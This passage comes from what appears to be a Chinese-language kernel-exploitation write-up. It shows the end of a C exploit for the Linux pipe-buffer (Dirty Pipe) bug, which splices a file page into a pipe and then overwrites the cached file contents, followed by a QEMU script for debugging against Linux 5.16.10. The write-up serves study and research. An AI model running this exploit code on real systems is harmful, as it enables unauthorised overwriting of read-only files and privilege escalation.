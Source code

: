 ```c
    while (r > 0)
    {
        unsigned int n = r > sizeof(buffer) ? sizeof(buffer) : r;
        read(pipe_fd[0], buffer, n);
        r -= n;
    }

    /* 经过上面的操作，如果某个页面被关联到pipe_buffer，那这个页面就可能被merge */
    --offset;
    size_t nbytes = splice(fd, &offset, pipe_fd[1], NULL, 1, 0);
    if (nbytes < 0)
    {
        err_exit("splice failed.");
    }

    if(nbytes == 0){
        err_exit("Too short to splice.");
    }

    nbytes = write(pipe_fd[1], data, data_size);
    if(nbytes < 0){
        err_exit("write failed.");
    }

    if(nbytes < data_size){
        err_exit("short write.");
    }

    success("All writes done.");
    return 0;
}
```

## 0x05. 调试分析

这里我自己编译了`linux 5.16.10`版本的代码，常见保护全开。

`qemu`启动脚本如下（现在关闭`kaslr`以便于调试，运行`exp`时应该开启）：

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -kernel ./bzImage \
    -initrd  ./rootfs.cpio \
    -monitor /dev/null \
    -append "root=/dev/ram rdinit=/sbin/init console=ttyS0 oops=panic panic=1 loglevel=3 quiet nokaslr" \
    -cpu kvm64,+smep,+smap \
    -smp cores=2,threads=1 \
    -nographic \
    -s

```
